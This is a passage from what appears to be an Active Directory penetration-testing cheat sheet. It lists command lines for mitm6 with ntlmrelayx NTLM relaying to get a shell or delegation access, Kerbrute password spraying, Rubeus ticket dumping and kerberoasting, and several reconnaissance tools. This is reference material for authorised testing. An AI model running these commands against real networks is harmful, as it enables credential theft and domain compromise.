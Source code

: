 * [Mitm6](https://github.com/fox-it/mitm6.git)

  ```bash
  git clone https://github.com/fox-it/mitm6.git && cd mitm6
  pip install .
  mitm6 -d lab.local
  ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i
  # -wh: Server hosting WPAD file (Attacker’s IP)
  # -t: Target (You cannot relay credentials to the same device that you’re spoofing)
  # -i: open an interactive shell
  ntlmrelayx.py -t ldaps://lab.local -wh attacker-wpad --delegate-access
  ```

* [ADRecon](https://github.com/sense-of-security/ADRecon)

  ```powershell
  .\ADRecon.ps1 -DomainController MYAD.net -Credential MYAD\myuser
  ```

* [Active Directory Assessment and Privilege Escalation Script](https://github.com/hausec/ADAPE-Script)

    ```powershell
    powershell.exe -ExecutionPolicy Bypass ./ADAPE.ps1 
    ```

* [Ping Castle](https://github.com/vletoux/pingcastle)

    ```powershell
    pingcastle.exe --healthcheck --server <DOMAIN_CONTROLLER_IP> --user <USERNAME> --password <PASSWORD> --advanced-live --nullsession
    pingcastle.exe --healthcheck --server domain.local
    pingcastle.exe --graph --server domain.local
    pingcastle.exe --scanner scanner_name --server domain.local
    available scanners are:aclcheck,antivirus,computerversion,foreignusers,laps_bitlocker,localadmin,nullsession,nullsession-trust,oxidbindings,remote,share,smb,smb3querynetwork,spooler,startup,zerologon,computers,users
    ```

* [Kerbrute](https://github.com/ropnop/kerbrute)

    ```powershell
    ./kerbrute passwordspray -d <DOMAIN> <USERS.TXT> <PASSWORD>
    ```

* [Rubeus](https://github.com/GhostPack/Rubeus)

    ```powershell
    Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ptt] [/luid]
    Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]
    Rubeus.exe klist [/luid:LOGINID]
    Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."]
    ```

* [AutomatedLab](https://github.com/AutomatedLab/AutomatedLab)
    ```powershell
    New-LabDefinition -Name GettingStarted -DefaultVirtualizationEngine HyperV
    Add-LabMachineDefinition -Name FirstServer -OperatingSystem 'Windows Server 2016 SERVERSTANDARD'
    Install-Lab
    Show-LabDeploymentSummary
    ```

